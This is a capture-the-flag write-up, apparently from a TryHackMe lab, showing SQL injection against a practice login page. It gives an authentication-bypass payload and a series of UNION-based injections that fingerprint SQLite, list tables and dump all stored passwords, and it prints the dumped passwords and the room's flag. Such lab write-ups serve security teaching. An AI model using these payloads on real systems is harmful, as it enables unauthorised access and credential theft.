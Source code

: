 - The login page (http://10.10.147.112:5000/challenge2/home) id vulnerable to sqli.
- On logging in with payload `1' OR 1==1 -- -`
- We are greeted with a login screen with username admin

![login screenshot](https://github.com/divu050704/assets-holder/raw/main/tryhackme-screenshots/8.png)

- Now, we know that we can try `UNION` SQL injection on this username field.
- Injected UNION SQL injection data until the query is successful (i.e., we are logged in)

```SQL
' UNION SELECT 1 -- -
' UNION SELECT 1,2 -- -
' UNION SELECT 1,2,3 -- -
' UNION SELECT 1,2,3,4 -- -
```

- Logged in with second payload, i.e., `' UNION SELECT 1,2 -- -`
- Now on home screen, we can see that we are logged in as 2, i.e. are second query. So we can inject code in place of `2`
![new screenshot with username 2](https://github.com/divu050704/assets-holder/raw/main/tryhackme-screenshots/9.png)

- Started with enumeration DBMS
- Found out it to be sqlite 3.22.0

```SQL
' union select 1,sqlite_version() -- -
```

![screenshot for DBMS version](https://github.com/divu050704/assets-holder/raw/main/tryhackme-screenshots/10.png)

- Now searched for table name.
- Found table name as users

```SQL
' UNION SELECT 1, group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'-- -
```

- Searched for column names inside the table.
- Found the output as

```SQL
CREATE TABLE users ( id integer primary key, username text unique not null, password text not null ) |
```

```SQL
' UNION SELECT 1,sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'-- - 
```

- Selected passwords from the table users
- Found password for current user as `345m3io4hj3`

```SQL
' UNION SELECT 1, password from users -- -
```

- Searched for all the passwords with `group_concat()`

```SQL
' UNION SELECT 1,group_concat(password) FROM users -- -
```

- Found passwords as 

```SQL
rcLYWHCxeGUsA9tH3GNV,asd,Summer2019!,345m3io4hj3,THM{fb381dfee71ef9c31b93625ad540c9fa},viking123
```
